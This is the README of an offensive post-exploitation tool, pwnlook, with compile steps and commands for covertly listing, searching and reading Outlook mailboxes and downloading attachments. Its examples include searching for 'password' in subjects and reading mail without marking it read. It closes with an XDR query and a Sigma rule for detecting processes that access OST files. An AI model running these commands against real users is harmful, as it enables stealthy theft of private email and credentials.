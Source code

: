 # pwnlook
Pwnlook is an offensive postexploitation tool that will give you complete control over the Outlook desktop application and therefore to the emails configured in it.
What it offers:
- List mailboxes
- List folders
- Gather emails information
- Read email
- Search by recipient or subject
- Download attachments

It's possible to do almost everything that Outlook can do: send emails, create forward rules, list contacts... But all this is out of the scope of this project.

## Compile
To compile it you need first to register both DLLs. This is only for compilation, there is no need to register the DLL where you execute it:
```
regsvr32.exe .\Redemption.dll
regsvr32.exe .\Redemption64.dll
```

You can unregister them later:
```
regsvr32.exe -u .\Redemption.dll
regsvr32.exe -u .\Redemption64.dll
```

Then use [ILMerge](https://github.com/dotnet/ILMerge) to create a single binary:
```
.\ILMerge.exe /target:pwnlook481.exe /out:pwnlook.exe pwnlook481.exe Newtonsoft.Json.dll
```

## How it works
`pwnlook` communicates with Outlook via COM. By using the [Redemption library](https://www.dimastr.com/redemption/home.htm) it can gather all kind of information without triggering any alert to the user, even if you read an unread email the email will keep as unread for the user.

The tool comes with some limitations that are related with the, most likely, possibility of dealing with very big OST files. Thats why, for example, I didn't implement an option to "list all emails".

The `Redemption64.dll` must be in the same path as the `pwnlook.exe`. There is no need to register the DLL ([Registry free COM](https://www.dimastr.com/redemption/security.htm#redemptionloader)) so you can run it on behalf of any user, even if it isn't Local Admin.

```powershell
.\pwnlook.exe --help


                    .__                 __
________  _  ______ |  |   ____   ____ |  | __
\____ \ \/ \/ /    \|  |  /  _ \ /  _ \|  |/ /
|  |_> >     /   |  \  |_(  <_> |  <_> )    <
|   __/ \/\_/|___|  /____/\____/ \____/|__|_ \
|__|              \/                        \/


Usage: pwnlook.exe [options]

List mailboxes:
  -listmailboxes

List folders:
  -mailbox <mailbox> -listfolders

List emails from date:
  -mailbox <mailbox> -folder <Folder\Path> -date <yyyy-MM-dd>

List latest X emails from folder:
  -mailbox <mailbox> -folder <Folder\Path> -latest <X>

Read email:
  -mailbox <mailbox> -folder <Folder\Path> -id <ID>

Download attachment (base64):
  -mailbox <mailbox> -folder <Folder\Path> -id <ID> -attachment <X>

Search by sender or subject:
  -mailbox <mailbox> -folder <Folder\Path> -search <sender|subject> -value <string>

Result format in JSON
  -json

Examples:
.\pwnlook.exe -mailbox my@mail.com -folder "Inbox" -latest 20 -json        Lists latest 20 emails from Inbox
```

### List Mailboxes
First you must list the existing mailboxes `.\pwnlook.exe -listmailboxes`:
```
Available Mailboxes:
    - test_1@domaintest.tld
    - test_2@domaintest.tld
```

### List existing folders
`.\pwnlook.exe -mailbox "test_1@domaintest.tld" -listfolders`

```
IPM_SUBTREE
    Trash
    Inbox
        test1
    Outbox
    Sent
    Calendar (This computer only)
    Contacts (This computer only)
    Journal (This computer only)
    Notes (This computer only)
    Tasks (This computer only)
    Drafts
    RSS Feeds
    Conversation Action Settings (This computer only)
    Quick Step Settings (This computer only)
    Sync Issues (This computer only)
        Local Failures (This computer only)
    Junk
    Archive
    test2
```

### Examples
**List latest 3 emails from test1 folder**
```
.\pwnlook.exe -mailbox "test_1@domaintest.tld" -folder "Inbox\test1" -latest 3 -json
```

Output example in JSON:
```
  {
    "Sender": "aaaa@eeee.org",
    "Recipients": "test_1@domaintest.tld",
    "Subject": "Email1",
    "Body": null,
    "Attachments": [],
    "Date": "2024-08-21",
    "Folder": "test1",
    "ID": "0000000057C2BFB33842564EBEE8060D4BBE7C4A0700FCDA005631565E4A933C1CF9DF307DD500000000000F0000D9539C2261A6BB45B9DAB62C7081B3C101000D0000000000"
  }
```

**List emails from date**
```
.\pwnlook.exe -mailbox test_1@domaintest.tld -folder "Inbox" -date "2024-08-12" -json
```
**Search email**
```
.\pwnlook.exe -mailbox test_1@domaintest.tld -folder "Inbox" -search "sender" -value "boss" -json
```

```
.\pwnlook.exe -mailbox test_1@domaintest.tld -folder "Inbox" -search "subjet" -value "password" -json
```

**Read email**

Use the `ID` to read the email:
```
.\pwnlook.exe -mailbox test_1@domaintest.tld -folder "test2" -read "0000000057C2BFB33842564EBEE8060D4BBE7C4A0700FCDA005631565E4A933C1CF9DF307DD50000000000110000FCDA005631565E4A933C1CF9DF307DD50000000016000000" -json
```

```
{
  "Sender": "aaaa@eeee.org",
  "Recipients": "test_1@domaintest.tld",
  "Subject": "Re: testeando",
  "Body": "Ok a todo\r\n\r\n\r\nEl 12 de agosto de 2024 11:30:25 CEST, test_1@domaintest.tld escribió:\r\n\r\n\temail de prueba\r\n\r\n",
  "Attachments": [
    "Senior Security Analyst - Job Description.pdf"
  ],
  "Date": "2024-08-12",
  "Folder": "test2",
  "ID": "0000000057C2BFB33842564EBEE8060D4BBE7C4A0700FCDA005631565E4A933C1CF9DF307DD50000000000110000FCDA005631565E4A933C1CF9DF307DD50000000016000000"
}
```

**Download attachment**
```
.\pwnlook.exe -mailbox test_1@domaintest.tld -folder "test2" -read "0000000057C2BFB33842564EBEE8060D4BBE7C4A0700FCDA005631565E4A933C1CF9DF307DD50000000000110000FCDA005631565E4A933C1CF9DF307DD50000000016000000" -attachment 0 > base64.txt
```

The attachment is encoded in `base64`, you can dump it as a file with Powershell like:
```
[System.IO.File]::WriteAllBytes("outputFile.pdf", [System.Convert]::FromBase64String([System.IO.File]::ReadAllText("base64.txt")))
```

## Detect

In your EDR you can search for processes accessing `OST` files.

In Cortex XDR would be like:

```
config case_sensitive = false
| preset = xdr_file 
| filter event_sub_type = ENUM.FILE_OPEN 
| filter action_file_path ~= "C:\\Users\\.*\\AppData\\Local\\Microsoft\\Outlook\\.*\.ost$" and actor_process_signature_status = UNSIGNED
| fields _time, agent_hostname , actor_effective_username , action_file_path, actor_process_image_name , actor_process_command_line, actor_process_image_sha256  , actor_process_signature_status , actor_process_signature_vendor 
```

Sigma rule:
```yml
title: Access to OST files by uncommon process
id: 0ea56b07-0bc6-4c8b-8b8a-e32de0557a5e
status: experimental
description: |
    Detects malicious software reading emails directly from OST files.
references:
    - https://github.com/amjcyb/pwnlook
author: amjcyb
date: 2024-09-10
tags:
    - attack.collection
    - attack.t1114.001
logsource:
    category: file_access
    product: windows
    definition: 'Requirements: Microsoft-Windows-Kernel-File ETW provider'
detection:
    selection:
        FileName|endswith: '.ost'
        FileName|contains:
            - 'AppData\Local\Microsoft\Outlook'
    filter_system_folders:
        Image|startswith:
            - 'C:\Program Files\'
            - 'C:\Program Files (x86)\'
            - 'C:\Windows\system32\'
            - 'C:\Windows\SysWOW64\'
    condition: selection and not 1 of filter_*
falsepositives:
    - Other email software
level: high
```

